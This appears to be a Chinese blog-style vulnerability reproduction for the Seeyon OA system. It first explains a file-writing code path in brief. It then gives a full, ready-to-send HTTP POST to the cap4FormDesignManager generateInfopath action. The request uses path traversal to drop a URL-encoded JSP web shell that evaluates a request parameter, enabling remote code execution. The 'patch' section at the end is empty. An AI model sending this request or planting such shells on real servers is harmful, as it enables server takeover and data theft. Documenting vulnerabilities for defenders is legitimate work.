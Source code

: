   
创建一个文件输出流 fout，用于向目标文件写入数据。创建一个 PrintStream 对象 writer，指定输出流和字符编码为 UTF-8。使用 writer.print(content) 将内容写入文件，并使用 writer.flush() 确保所有内容都被写入。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz4ARKnFCvdhC4HnKgs5Gx42mBbfBX8dXd1UI6TzYKEpqTet4zOsNBsibrNrwZuEsbVJ8SWxe8Znl7A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz4ARKnFCvdhC4HnKgs5Gx42UpeqksczwdlvciaNibQvj9rg2dCCjSwhk7YecmVtpLfqLJXXSByh9Wag/640?wx_fmt=png&from=appmsg "")  
  
成功写入文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz4ARKnFCvdhC4HnKgs5Gx42gF1WibDG2bttqiaRWFb3gBc1Z1XtHvlJqicUXSo286OHaibdxCGlas328A/640?wx_fmt=png&from=appmsg "")  
## 漏洞复现  
  
- 1  
  
- 2  
  
- 3  
  
- 4  
  
- 5  
  
- 6  
  
- 7  
  
- 8  
  
- 9  
  
- 10  
  
- 11  
  
- 12  
  
- 13  
  
```
POST /seeyon/ajax.do?method=ajaxAction&managerName=cap4FormDesignManager HTTP/1.1
Accept: */*Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6Connection: keep-aliveContent-Length: 331Content-Type: application/x-www-form-urlencoded;charset=UTF-8Cookie: ts=1728653264995; JSESSIONID=EADD9E1D7E239870F85E73935AC9AD34; loginPageURL=; login_locale=zh_CN; avatarImageUrl=5995465946958220283Host: 192.168.18.129:8085RequestType: AJAXUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36 Edg/130.0.0.0managerMethod=generateInfopath&arguments={"files":[{"fileName":"../../../../../../ApacheJetspeed/webapps/seeyon/5.jsp","fileContent":"%3c%25%6f%75%74%2e%70%72%69%6e%74%28%6f%72%67%2e%61%70%61%63%68%65%2e%6a%61%73%70%65%72%2e%72%75%6e%74%69%6d%65%2e%50%61%67%65%43%6f%6e%74%65%78%74%49%6d%70%6c%2e%70%72%6f%70%72%69%65%74%61%72%79%45%76%61%6c%75%61%74%65%28%72%65%71%75%65%73%74%2e%67%65%74%50%61%72%61%6d%65%74%65%72%28%5c%22%63%6f%64%65%5c%22%29%2c%20%53%74%72%69%6e%67%2e%63%6c%61%73%73%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2c%20%6e%75%6c%6c%29%29%3b%25%3e"}]}

```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz4ARKnFCvdhC4HnKgs5Gx42eymCp7873ODhrlw2cynTBDXepPW3ia2iaYXSgdjZeTGLyLCOkZnfXEHw/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz4ARKnFCvdhC4HnKgs5Gx42zUNt2icgZMCvn6d7rePP6ltyrkGbzqdyjyxS6g9gjmaSjzl7GqqBL4w/640?wx_fmt=png&from=appmsg "")  
## 补丁  
  